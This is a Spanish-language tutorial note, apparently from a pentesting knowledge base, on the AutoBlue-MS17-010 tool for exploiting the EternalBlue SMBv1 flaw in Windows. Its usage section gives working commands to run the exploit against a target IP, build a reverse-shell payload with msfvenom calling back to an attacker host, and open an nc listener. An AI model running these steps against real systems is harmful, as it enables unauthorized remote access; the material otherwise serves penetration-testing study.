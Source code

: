 - El script **AutoBlue-MS17-010** es una herramienta de explotación automatizada diseñada para aprovechar la vulnerabilidad **MS17-010** en sistemas Windows. Esta vulnerabilidad, también conocida como **EternalBlue**, afecta el protocolo **SMBv1 (Server Message Block versión 1)** y fue una de las vulnerabilidades utilizadas por el exploit **EternalBlue** filtrado por el grupo Shadow Brokers en 2017. Esta vulnerabilidad fue la base de los ciberataques masivos como **WannaCry** y **NotPetya**.
- ### Descripción General de MS17-010

	- **MS17-010** es una vulnerabilidad crítica que permite a un atacante ejecutar código de manera remota en un sistema vulnerable. Afecta a múltiples versiones de Windows, como Windows 7, Windows Server 2008, y otras versiones más antiguas que utilizan SMBv1 sin el parche adecuado.

	- La explotación de esta vulnerabilidad permite la ejecución remota de código (RCE, por sus siglas en inglés) en la máquina de destino, sin requerir credenciales ni interacción del usuario. Esto es posible debido a una falla en la forma en que SMBv1 maneja las solicitudes especialmente diseñadas.
- ### Qué es AutoBlue-MS17-010

	- **AutoBlue-MS17-010** es una herramienta escrita en Python que automatiza el proceso de explotación de esta vulnerabilidad. Fue creada para facilitar la ejecución de EternalBlue, especialmente para usuarios de pruebas de penetración o investigadores de seguridad. Su propósito principal es:
		
		1. **Detectar si un sistema es vulnerable a MS17-010**.
		2. **Explotar la vulnerabilidad** para obtener acceso remoto.
		3. **Generar una shell inversa** en el sistema vulnerable.
- ### Componentes Principales del Script

	- AutoBlue-MS17-010 combina varias herramientas y scripts para llevar a cabo un ataque exitoso, incluyendo:
		
		1. **Escaneo de Vulnerabilidad**: Antes de lanzar el exploit, el script realiza un escaneo de los hosts objetivo para verificar si son vulnerables a MS17-010. Esto se hace enviando paquetes SMB personalizados y analizando las respuestas.
		    
		2. **Explotación con EternalBlue**: Una vez identificado un sistema vulnerable, el script lanza el exploit EternalBlue. Esto involucra el envío de una carga maliciosa a través del protocolo SMB que aprovecha el desbordamiento de búfer en SMBv1 para ejecutar código en el sistema remoto. Esto permite al atacante obtener acceso no autorizado al sistema objetivo.
		
		3. **Payload (Carga Maliciosa)**: El script permite generar un payload (carga útil) que se ejecutará en el sistema comprometido. Generalmente, se utiliza un payload de tipo _shell inversa_, que permite al atacante obtener acceso interactivo en la máquina víctima. AutoBlue-MS17-010 permite personalizar la carga, eligiendo entre varios tipos de payloads, como Meterpreter de Metasploit.
		    
		4. **Configuración del Listener**: Una vez que el payload está listo, el script configura un listener en la máquina atacante. Este listener está preparado para recibir la conexión inversa desde la máquina comprometida, lo que da al atacante acceso remoto a través de la shell generada.
		    
		5. **Explotación Automatizada**: AutoBlue-MS17-010 combina todas estas funcionalidades en un solo flujo de trabajo automatizado. Así, un usuario puede seleccionar un host, comprobar si es vulnerable y, en caso afirmativo, lanzar el exploit y obtener acceso de manera sencilla.
- ### Uso Básico de AutoBlue-MS17-010

	- El uso básico de AutoBlue-MS17-010 generalmente involucra los siguientes pasos:
		
		1. **Clonar el repositorio**:
		    		    
		    `git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git cd AutoBlue-MS17-010`
		    
		2. **Ejecutar el script**: AutoBlue tiene scripts específicos tanto para sistemas de 32 bits como de 64 bits. Puedes ejecutar el script para verificar la vulnerabilidad y explotar el sistema. Por ejemplo, para un sistema de 64 bits:
		    		    
		    `python eternalblue_exploit7.py 192.168.1.10 shellcode/sc_x64.bin`
		    
		    Donde `192.168.1.10` es la IP de la máquina objetivo y `sc_x64.bin` es el archivo del payload en formato de shellcode.
		    
		3. **Generar el payload**: Antes de ejecutar el exploit, el script también permite crear un payload personalizado. Puedes usar Metasploit para generar el payload:
		    
		    		    
		    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > sc_x64.bin`
		    
		    Aquí, `LHOST` es la dirección IP de la máquina atacante, y `LPORT` es el puerto en el que el listener estará esperando la conexión.
		    
		4. **Iniciar el Listener**: En la máquina atacante, inicia el listener que esperará la conexión de la shell inversa:
		    		    
		    `nc -lvnp 4444`
		    
		5. **Ejecutar el Exploit**: Ejecuta el script para lanzar el exploit y establecer la conexión remota.
- 